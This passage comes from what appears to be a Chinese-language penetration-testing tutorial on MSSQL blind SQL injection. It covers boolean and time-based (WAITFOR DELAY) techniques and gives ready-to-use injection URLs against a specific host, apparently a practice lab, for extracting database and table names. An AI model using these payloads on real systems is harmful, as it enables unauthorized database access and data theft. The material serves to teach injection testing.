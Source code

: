 ```php
http://219.153.49.228:40768/new_list.asp?id=2 and ascii(substring((select top 1 db_name()),2,1))=111
```

![](https://p5.ssl.qhimg.com/t01e337930ebb104e75.png)
4、获取所有ascii码之后，解码获取数据
![](https://p1.ssl.qhimg.com/t011e5c21dc29f4e03b.png)

## 2、查询表名

除了像上面查询库名使用了ascii码外，还可以直接猜解字符串

```php
http://219.153.49.228:40768/new_list.asp?id=2 and substring((select top 1 name from dbo.sysobjects where xtype='U'),1,1)='m'
```

![](https://p1.ssl.qhimg.com/t019bb4ff316062345b.png)

```php
http://219.153.49.228:40768/new_list.asp?id=2 and substring((select top 1 name from dbo.sysobjects where xtype='U'),1,6)='manage'
```

![](https://p5.ssl.qhimg.com/t017026272920723c8d.png)

# 0x06 延时盲注

## 1、延时函数 WAITFOR DELAY

```php
语法：n表示延时几秒WAITFOR DELAY '0:0:n'id=1 if (布尔盲注的判断语句) WAITFOR DELAY '0:0:5' -- qwe
```

## 2、查询数据

```php
#判断如果第一个库的库名的第一个字符的ascii码为109，则延时5秒http://219.153.49.228:40768/new_list.asp?id=2 if (ascii(substring((select top 1 db_name()),1,1))=109) WAITFOR DELAY '0:0:5' -- qwe
```

![](https://p3.ssl.qhimg.com/t018900c2d899e6edae.png)

```php
#判断如果第一个表的表名的第一个字符为m，则延时5秒http://219.153.49.228:40768/new_list.asp?id=2 if (substring((select top 1 name from dbo.sysobjects where xtype='U'),1,1)='m') WAITFOR DELAY '0:0:5' -- qwe
```

![](https://p3.ssl.qhimg.com/t01b7f6779fd2f33d7e.png)


# 0x07 反弹注入
